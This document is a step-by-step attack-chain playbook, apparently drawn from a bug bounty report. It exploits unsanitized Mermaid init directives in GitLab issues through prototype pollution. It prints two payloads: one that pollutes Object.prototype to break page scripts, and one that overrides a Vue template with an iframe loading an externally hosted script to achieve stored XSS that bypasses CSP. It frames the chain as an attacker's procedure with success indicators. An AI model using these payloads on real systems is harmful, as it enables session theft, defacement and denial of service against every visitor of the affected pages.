

# Stored XSS via Prototype Pollution in GitLab Mermaid Directives

Multi-stage attack chain demonstrating a complete attack workflow exploiting unsanitized JSON directives in Mermaid diagrams within GitLab issues and comments. The attack begins with prototype pollution causing client-side denial-of-service (DoS) by breaking JavaScript functionality, then escalates to stored cross-site scripting (XSS) via pollution of Vue.js template properties, enabling arbitrary JavaScript execution for any visitor interacting with the page.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser with developer tools (e.g., Chrome DevTools for inspection)
- Access to a GitLab repository (authenticated user account)

### Target Environment

- GitLab instance (self-hosted or gitlab.com)
- Web platform with Mermaid diagram rendering enabled in issues/comments
- No specific ports required; operates over HTTPS

### Initial Access Requirements

- Valid GitLab user account with permission to create issues in a repository
- No elevated privileges needed; standard user access suffices
- Network access to the GitLab web interface

## Detailed Attack Procedures

### Step 1: Create an Issue in GitLab Repository
procedure: [[procedures/Create-GitLab-Issue-with-Mermaid-Payload]]

**Objective**: Establish a vector for injecting the malicious Mermaid payload by creating a new issue.

**Instructions**: Navigate to any GitLab repository where you have write access. Use the GitLab UI to create a new issue. In the issue description or title, prepare to insert the Mermaid diagram code in the next step. No code execution here; this sets up the stored content.

**Expected Output**: A draft issue page in GitLab's Markdown editor, ready for payload insertion.

**Success Indicators**:
- Issue creation form loads successfully
- Markdown preview is available for testing Mermaid rendering

### Step 2: Insert Mermaid Diagram with Prototype Pollution Payload
procedure: [[procedures/Create-GitLab-Issue-with-Mermaid-Payload]]

**Objective**: Inject a basic prototype pollution payload to overwrite the Object prototype, causing client-side DoS.

**Instructions**: In the issue description, add the following Mermaid initialization directive followed by a simple sequence diagram:

```
%%{init: { '__proto__': {'polluted': 'asdf'}} }%% sequenceDiagram Alice->>Bob: Hi Bob Bob->>Alice: Hi Alice
```

This payload uses the `__proto__` key in the unsanitized JSON to pollute the global Object prototype. Preview the issue to verify the diagram renders without errors on your side.

**Expected Output**: The Markdown preview shows the rendered sequence diagram; no visible errors in the console yet.

**Success Indicators**:
- Diagram renders in preview
- No immediate client-side breakage during authoring

### Step 3: Save the Issue
procedure: [[procedures/Create-GitLab-Issue-with-Mermaid-Payload]]

**Objective**: Persist the polluted content, applying the prototype pollution to any client loading the page.

**Instructions**: Submit the issue by clicking the "Create Issue" or "Submit" button. The Mermaid library will parse and execute the init directive on page load for viewers.

**Expected Output**: The issue is saved and accessible via its URL (e.g., https://gitlab.com/group/repo/-/issues/1). Viewing the issue in a new browser session or incognito mode should trigger pollution.

**Success Indicators**:
- Issue appears in the repository's issues list
- Page loads but JavaScript functionality (e.g., commenting) breaks with exceptions

### Step 4: Escalate to XSS by Polluting the Template Property
procedure: [[procedures/Escalate-Prototype-Pollution-to-Stored-XSS]]

**Objective**: Advance the pollution to overwrite Vue.js template properties with malicious HTML/JS, bypassing CSP for stored XSS.

**Instructions**: Create a new issue and insert an escalated payload:

```
%%{init: { '__proto__': {'template': '<iframe xmlns="http://www.w3.org/1999/xhtml" srcdoc="&lt;script src=https://gitlab.com/bugbountyuser1/csp/-/jobs/1030502035/artifacts/raw/payload.js&gt; &lt;/script&gt;"></iframe>'}} }%% sequenceDiagram Alice->>Bob: Hi Bob Bob->>Alice: Hi Alice
```

This sets the `template` property to an iframe containing an external script, which executes on interaction. Save the issue as in Step 3.

**Expected Output**: Issue saved; the iframe payload is stored but not immediately visible.

**Success Indicators**:
- Issue persists without rendering errors
- Source code inspection shows the polluted template in the page's JavaScript context

### Step 5: View the Issue Page to Trigger the Exploit
procedure: [[procedures/Trigger-XSS-on-Issue-Page]]

**Objective**: Observe the full impact as any visitor loads the page and interacts, executing the XSS payload.

**Instructions**: Open the affected issue URL in a browser (e.g., https://gitlab.com/bugbountyuser1/dos/-/issues/2). Interact minimally, such as clicking the search bar, to trigger Vue.js rendering of the polluted template.

**Expected Output**: JavaScript from the external payload executes, potentially alerting, stealing session data, or defacing the page.

**Success Indicators**:
- Console shows prototype pollution (e.g., Object.prototype.polluted = 'asdf')
- Interaction triggers iframe load and script execution (check network tab for external JS fetch)

## Attack Chain Summary

### Key Achievements

1. Achieved client-side DoS by polluting Object prototypes, breaking GitLab page interactivity for all visitors.
2. Escalated to stored XSS via Vue.js template override, enabling arbitrary JS execution without direct input sanitization.
3. Bypassed CSP using external script hosting in GitLab artifacts, impacting any authenticated or unauthenticated viewer.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]] JavaScript (for XSS execution)
- [[Drive-by Compromise]] Drive-by Compromise (via polluted client-side rendering)

### MITRE ATT&CK Tactics

- [[Execution]] Execution (JS payload run in browser)
- [[Collection]] Collection (potential session data theft via XSS)
- [[Impact]] Impact (DoS from prototype breakage)

---

*Last updated: 2023-10-01T00:00:00Z*
